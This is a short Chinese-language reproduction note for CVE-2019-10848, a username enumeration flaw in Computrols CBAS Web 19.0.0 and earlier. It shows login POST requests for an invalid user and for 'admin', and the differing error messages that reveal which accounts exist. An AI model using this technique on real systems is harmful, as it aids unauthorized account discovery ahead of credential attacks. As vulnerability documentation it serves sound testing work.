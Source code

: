（CVE-2019-10848）Computrols CBAS Web 用户名枚举
================================================

一、漏洞简介
------------

二、漏洞影响
------------

19.0.0及以下

三、复现过程
------------

### 测试无效用户：

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62

Response

    <!-- Failed login comments appear here -->
    <p class="alert-error">randomuser</p>

### 测试有效用户：

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s

Response

    <!-- Failed login comments appear here -->
    <p class="alert-error">Invalid username/password combination.  Please try again!</p>
